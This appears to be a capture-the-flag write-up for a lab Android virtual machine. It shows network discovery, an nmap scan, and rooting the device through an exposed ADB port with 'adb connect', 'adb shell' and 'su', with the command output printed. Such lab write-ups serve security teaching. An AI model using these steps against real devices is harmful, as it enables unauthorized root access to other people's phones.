

# 📳📳 Android4: 1 Writeup 📳📳

## Getting the Ip Address of Target Device:


I will be using arp-scan to scan my local network and get the ip address of the target device

> target ip -> 192.168.100.11

## Scanning the Target 

Using nmap to scan the device for open ports

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ nmap -sV 192.168.100.11 -oN nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 05:40 EDT
Nmap scan report for 192.168.100.11
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
MAC Address: 08:00:27:ED:55:9B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.30 seconds

```

## Exploitation

Let's go with port 8080, it is a http service, lets open it up in browser and see if we got some clues



Here I dont get any clues or flag in the http services I even used Gobuster to find the hidden dirs but nothing interesting...

Now as another port is open that is 5555, it has service `freeciv` service, so I searched for it and got that we can use it to connect device to out kali machine using [adb](https://developer.android.com/tools/adb)

Let's use adb to connect to target device

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb connect 192.168.100.11:5555
connected to 192.168.100.11:5555
                                                                                                               
┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb devices                    
List of devices attached
192.168.100.11:5555     device


```

So the device is connected to our attacking machine, lets use shell to enumerate and find the flag

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # 


```


Here I got the root shell now lets get the flag


### I got the flag 🚩🚩

